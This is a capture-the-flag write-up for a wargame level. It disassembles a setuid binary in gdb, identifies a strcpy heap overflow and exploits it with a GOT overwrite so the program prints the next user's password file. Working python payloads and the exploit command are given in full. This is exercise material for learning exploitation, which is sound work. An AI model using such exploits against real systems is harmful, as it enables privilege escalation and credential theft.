 # Level 7

## First clue
- once logged in as level7 we find again an executable  owned by `level8` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `~~`

## Inspect with gdb
- `(gdb) info function` reveals main and m functions, but also a system call, malloc, strcpy, time, puts and printf. 
```
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini


```
## Main
```
    0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret   


```
Disassemblying main we find out that:
- The program takes 2 arguments.
- It opens a file using the fopen function.
- The file being opened is identified as "/home/user/level8/.pass":
```
(gdb)$ x/s 0x80486e9
0x80486e9:	"r"
(gdb)$ x/s 0x80486eb
0x80486eb:	"/home/user/level8/.pass"
```
- The source address for copying is obtained from the second argument (0x18(%esp)).
- The destination address for copying is obtained from the first argument (0x1c(%esp)).
- The first strcpy call copies the content from the second argument (argv[2]) to the buffer pointed to by the first argument (buf).
- The file descriptor returned by fopen is stored on the stack at DWORD PTR [esp+0x8].
- The size of the buffer to read from the file is set to 0x44 (68 in decimal), and this value is also stored on the stack at DWORD PTR [esp+0x4].
- The address 0x8049960 is moved onto the stack, indicating the destination buffer where the content of the file will be stored.
- fgets is then called to read a line from the file. It reads up to 0x44 characters from the file and stores them in the buffer pointed to by 0x8049960.
- Finally, puts is called to print out the content of the buffer (0x8049960).

## Function m

- it's not called anywhere but it handle the same variable located at 0x8049960 that puts print out in main function (in <+195> passed to esp) .
- if we analyze its content we discover that is a global variable called "c":
```
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
- function m pass this variable to printf:
```
  0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret 
```

## The vulnerability and how to exploit it

- Buffer Overflow: the strcpy calls do not perform bound checking (check if destination buffer is shorter than source string)

How to exploit it: 
- Overwrite Return Address:  we can overwrite the return address of the puts function with the address of the m function. This would cause the program to execute the m function before the main function returns.
Since the main function take 2 args and the second is copied into the buffer pointed to by the first argument, if we pass the puts function address pointer (the one present in GOT) as first arg and the m function address as second arg, we overwrite the return address of the puts function with the address of the m function, hijacking the control flow of the program. This allows us to redirect the program's execution to the m function, which contains the code to print out the c variable, that point to the .pass file we want to cat. 

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
`
- that means that EIP was not overwritten, but since when a buffer overflow occurs, the extra characters from the input overwrite adjacent memory locations, including the contents of CPU registers such as eax and edx, we check eax and edx and we find "46464646":
```
(gdb) i register
eax            0x46464646	1179010630
ecx            0x0	0
edx            0x46464646	1179010630
```
- 46 is the ASCII for "F" at position 21, so the end of the buffer is at position 20 => `echo "AAAABBBBCCCCDDDDEEEEF" | grep -o .  |  wc -l`
- we store in /tmp/puts 20 letters + the address of puts function (reversed for little endian) and pass /tmp/exploit as argument to ./level7
- the address of puts:
```
(gdb)$ info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts@plt

(gdb)$ x/i 0x08048400
0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928
```
- `python -c 'print "a"*20+"\x28\x99\x04\x08"' > /tmp/puts`
- we store in /tmp/m the address of m function as it appears in info function (reversed for little endian): `080484f4`
- `python -c 'print "\xf4\x84\x04\x08"' > /tmp/m`
- `./level7 $(cat /tmp/puts) $(cat /tmp/m)`
- we get the flag
